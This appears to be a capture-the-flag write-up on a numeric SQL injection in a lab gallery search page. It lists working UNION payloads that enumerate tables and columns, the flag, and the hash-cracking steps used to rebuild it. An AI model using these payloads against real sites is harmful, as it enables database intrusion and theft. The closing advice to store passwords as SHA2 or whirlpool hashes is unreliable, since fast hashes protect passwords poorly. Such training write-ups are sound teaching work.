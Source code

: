 # SQL Numeric Injection - Gallery

## Flag

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Description

In the search page, I notice that the entries are expected to be numeric, so I try a basic payload :
`http://192.168.56.101/?page=searchimg&id=1%20OR%201=1%20--&Submit=Submit#`
This link display all the image links of the website, we also notice that the id get variable isn't XSS protected, letting an unexploitable XSS reflected issue.
The request seems to by like : `"SELECT * FROM images WHERE id = ".$_GET("id").";"`
Where `image` is the gallery table name (not found yet)

I try a new payload to get all table names :
`1 OR 1=1 UNION ALL SELECT table_schema,table_name FROM information_Schema.tables--`

And a second one to get all columns names :
`UNION ALL SELECT table_name,column_name FROM information_Schema.columns--`

The results are :
```
db_default (Members_Brute_Force) :
id, username, password
users (Members_Sql_Injection) :
user_id, first_name, last_name, town, country, planet, Commentaire, countersign
list_images (Member_images):
id, url, title, comment
vote_dbs (Member_survey) :
id_vote, vote, nb_vote, subject
guestbook (Member_guestbook) :
id_comment, comment, name
```

I expected first the exploit to be in the users table, but the users table SQL Injection is actually the one found in the member search page.
It's therefore impossible to get any information in this table, since it's located in another schema.
I finally succeed to find the flag by getting extra information from the list_images table.

## URL

http://192.168.56.101/?page=searchimg

## Steps To Reproduce

Insert this payload :
`UNION ALL SELECT comment, title FROM list_images--`

To see, as comment for the Hack me ? picture :
`If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`
Reverse the md5 hash with crackstation, lowercase the result, then sha256 the lowercased result to get the flag.

## Why is it dangerous ?

UNION SQL exploits can let malicious users get database structure informations or user credentials (including admin ones)

## Possible fixes

- Limit the user input to numeric, with intval() for exemple
- Hash the passwords with a complex algorithm (Sha2, whirlpool) to limit the damages if someone get access to your databases anyway

## Resources

There is no additional resource for this issue.
